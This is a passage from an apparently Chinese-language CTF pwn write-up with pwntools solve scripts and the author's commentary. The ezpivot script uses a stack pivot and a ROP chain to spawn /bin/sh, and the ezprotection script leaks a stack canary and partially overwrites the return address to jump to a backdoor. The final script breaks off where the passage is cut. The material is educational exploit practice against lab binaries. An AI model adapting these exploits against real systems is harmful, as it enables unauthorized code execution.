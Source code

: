```python
p.send(payload)
p.interactive()
# pwn ./pwn ./libc.so.6
# R
```

这个题，在最开始的时候，我给你打印了read在got中的地址，这个题的初衷是希望大家对于动态链接和延迟绑定能有一个更好的理解，最开始got中read的表项填写的是read函数plt中的一条指令的地址，当第一次调用read之后，完成了地址解析，此时got中的地址就变成了read函数在libc中的真实地址，此时就可以完成libc地址的泄露，很多同学在做的时候，出现的一个坑是，他们知道要重新执行一次这个printf，但是他们返回错地方了，在printf调用之前，有好几条指令都是在完成参数的装载，而他们返回到了装载指令之后，导致参数出现问题，出现了地址泄露不稳定等一系列的问题，希望大家注意这一点。

# ezpivot

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
context.terminal = ['wt.exe','wsl']
libc = ELF('libc.so.6')
#0x401230 system
#0x404060 bss
#0x401219 rdi
p = process('./pwn')
# p = gdb.debug('./pwn2','b main')
p.sendlineafter(b'of your introduction.',b'-1')
pop_rdi = 0x401219
system = 0x401230
desc = 0x404060
ret = 0x40101a
leave = 0x40120f
payload = b'/bin/sh\x00' + b'\x00'*(0x600-8+0x100)  + p64(0x404600) + p64(0x404600)
payload += p64(pop_rdi) + p64(0x404060) + p64(ret) + p64(system)
p.send(payload)
payload1 = b'a' * 12 + p64(0x404660-8+0x100+0x10) + p64(leave)
p.sendafter(b'lease tell us your phone number:' , payload1)
p.interactive()

```

这个题是一个栈迁移的入门题，希望新手在入门栈迁移的时候，不要用自己大脑模拟，多调试多跟踪，exp一步一步的写，然后去观察rbp以及rsp的变化，此时才能对于迁移的过程更加了然于胸，这里的坑是，首先，当system调用的时候，需要预留好栈空间，如果栈空间不足，当迁移到bss段之后，一些指令会访问或者甚至修改到只读的代码段，引起段错误，我注意到很多锤的同学，他们抬高栈的手段是硬生生输入诸如0x600个a，其实无需这么麻烦，并且太大量的输入会导致打远程的时候，出现io问题，直接玄学报错，你要注意到，read在读取的时候，是用rbp寻址的，因此当你控制了rbp之后，就可以直接任意地址写了，此时直接写到高地址即可，另一个坑的话，就是，当你迁移之后，执行system之前，一定要注意rbp的有效性，很多同学将rsp迁移过来之后，就对rbp不管不顾了，此时rbp相关的指令在访存的时候，会因为rbp是一个无效的值而引起段错误。

# ezprotection

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe','wsl'])
#0x11A9 bkd地址
bkd = 0x127d
while True:
    p = process('./pwn')
    # p = gdb.debug('./pwn','b vuln')
    payload = b'a' * 25
    p.send(payload)
    p.recvuntil(b'a'*25)
    canary = b'\x00' + p.recv(7)
    print("canary:", canary)
    payload = b'a' * 24 + canary + b'a' * 8 +p16(bkd)
    p.send(payload)
    # p.interactive()
    # break
    out = p.recvall(1)
```